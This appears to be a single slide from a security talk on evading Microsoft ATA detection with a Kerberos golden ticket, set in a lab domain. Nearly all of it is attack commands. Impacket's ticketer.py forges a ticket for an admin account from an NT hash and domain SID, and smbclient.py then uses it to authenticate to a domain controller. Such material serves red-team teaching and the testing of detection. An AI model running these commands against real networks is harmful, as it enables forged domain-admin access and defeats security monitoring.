

# MS ATA vs Golden Ticket
Bypass:
Greate new Golden Ticket
./ticketer.py -nthash 3de688a71201f050806fa9f03056e825 -domain-sid S-1-5-21-1050284533-2970264537-631155681 -domain winlab.local ataadmin
export KRB5CCNAME=ataadmin.ccache
./smbclient.py -debug -no-pass -k -dc-ip 172.16.2.10 winlab.local/ataadmin@dc1.winlab.local

52